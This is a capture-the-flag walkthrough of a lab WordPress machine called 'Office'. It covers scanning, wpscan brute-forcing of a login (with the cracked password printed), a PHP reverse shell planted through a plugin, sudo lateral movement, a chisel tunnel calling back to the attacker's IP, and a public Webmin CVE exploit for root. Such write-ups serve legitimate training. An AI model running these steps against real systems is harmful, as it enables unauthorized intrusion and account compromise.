 In this walkthrough, we'll go over one of the machines called ***Office*** from the challenge labs on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Office IP](officeIP.png)

Let's start the scanning process with nmap:
```bash
nmap -sTV -p- -n 172.31.3.1
```
We'll see that there are three ports open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-29 11:58 EDT
Nmap scan report for 172.31.3.1
Host is up (0.057s latency).

PORT      STATE    SERVICE          VERSION
22/tcp    open     ssh              OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:3f:6c:4e:6d:8b:dc:59:b7:cb:66:64:27:f9:22:86 (RSA)
|   256 ee:be:37:f3:75:4e:38:2a:a9:99:e0:18:1a:b8:d1:41 (ECDSA)
|_  256 7f:72:a7:29:be:30:9e:5e:aa:b9:fc:be:09:d2:8b:3a (ED25519)
80/tcp    open     http             Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.4.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Dunder Mifflin &#8211; Just another WordPress site
443/tcp   open     ssl/http         Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=office.csl/organizationName=Dunder Mifflin/stateOrProvinceName=PA/countryName=US
| Not valid before: 2020-05-08T20:01:51
|_Not valid after:  2021-05-08T20:01:51
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
10000/tcp filtered snet-sensor-mgmt
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.52 seconds

```
Let's add this to our /etc/hosts file as follows:
```bash
172.31.3.1 office.csl
```
It looks like a WordPress site is being served on port 80:
![Office WP](office-index-html.png)

Since this is a WordPress site, we can use wpscan to scan all the plugins with `wpscan --url http://office.csl --enumerate ap --plugins-detection aggressive --max-threads 50`
![WP Plugin Scan](office-wpscan.png)

Previously, I tried to exploit the plugin ***wp-file-manager***, but that didn't go anywhere. Now, we can perform a user enumeration with the following `wpscan --url http://office.csl --enumerate u`
![WP User Enum](office-wpscan-userenum.png)

It looks like we have a user called ***dwight*** and we can try to brute force the login with this user name and the wordlist of rockyou.txt `wpscan --url http://office.csl --passwords /usr/share/wordlists/rockyou.txt --usernames dwight`
![WP Bruteforce](office-wpscan-bruteforce.png)

We have a successful hit so the found creds are:

Username | Password
--------- | ---------
dwight | cowboys1

By using the above credentials, we can successfully log into the admin panel. However, we need to download and install ***php_everywhere*** plugin for this machine. After installing the plugin, let's add a new page and then copy the PHP reverse shell from ![Pentestmonkey GitHub Repo](https://github.com/pentestmonkey/php-reverse-shell) into the PHP Everywhere text box (don't forget to change the IP address and port to yours) and type "php_everywhere" in the body of the page:
![PHP Everywhere Reverse Shell](office-php-everywhere.png)
![PHP Everywhere Page Preview](office-wpscan-php_everywhere.png)

Now, start a revershell and in the WordPress site, hit "Preview". We should receive a shell back:
![Office Foothold](office-intialfoothold.png)

It looks like we are www-data and we need to perform a lateral movement to become dwight user so let's look at `sudo -l` which shows that we can run bash as dwight:
![Office Sudo -l](office-wwwdata-sudo-l.png)

We can run the following script to become dwight `sudo -u dwight /bin/bash`:
![Office Dwight](office-dwight.png)

From here, there are a few things that I check manually such as locally open ports with `netstat -tulpn`:
![Office Open Ports](office-netstat.png)

It looks like the port 10000 is open so we can forward this port back to our local Kali machine with ![Chisel](https://github.com/jpillora/chisel)
1. On Kali, I started a chisel server: `./chisel_1.7.6_linux_amd64 server -p 1111 --reverse` ![Chisel Server](office-chisel-server.png)
2. On the target, I started a chisel client: `./chisel_1.7.6_linux_amd64 client 10.10.0.18:1111 R:9050:127.0.0.1:10000` ![Chisel Client](office-chisel-client.png)

When we visit http://127.0.0.1:9050/session_login.cgi, I see that Webmin is running:
![Office Webmin](office-webmin.png)

At this point, we can use Metasploit to exploit Webmin server, but let's do it manually without Metasploit. 

We can clone the following GitHub repo from https://github.com/MuirlandOracle/CVE-2019-15107 and just run the exploit as shown below:

![Office Root](office-manual-webmin.png)
